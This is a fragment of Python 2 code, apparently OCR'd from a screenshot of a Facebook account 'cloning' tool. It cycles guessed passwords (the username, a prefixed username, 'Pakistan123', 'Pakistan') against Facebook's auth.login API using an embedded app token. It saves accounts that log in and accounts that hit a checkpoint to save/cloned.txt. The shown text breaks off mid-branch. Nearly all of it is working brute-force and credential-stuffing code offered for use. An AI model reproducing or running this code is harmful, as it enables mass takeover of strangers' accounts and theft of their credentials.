         try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;93m(done)  ' + k + c + user + '  |  ' + pass1                                       
                okb = open('save/cloned.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()
                oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;97m(7Days) ' + k + c + user + '  |  ' + pass1
                    cps = open('save/cloned.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)
                else:
                    pass2 = k + c + user
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;93m(Done)  ' + k + c + user +  '  |  ' + pass2
                        okb = open('save/cloned.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass2
                            cps = open('save/cloned.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="Pakistan123"
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;93m(Done)  ' + k + c + user + '  |  ' + pass3
                                okb = open('save/cloned.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass3 
                                    cps = open('save/cloned.txt', 'a')
                                    cps.write(k+c+user+pass3+'\n')
                                    cps.close()
                                    cpb.append(c+user+pass3)
                                else:
                                    pass4="Pakistan"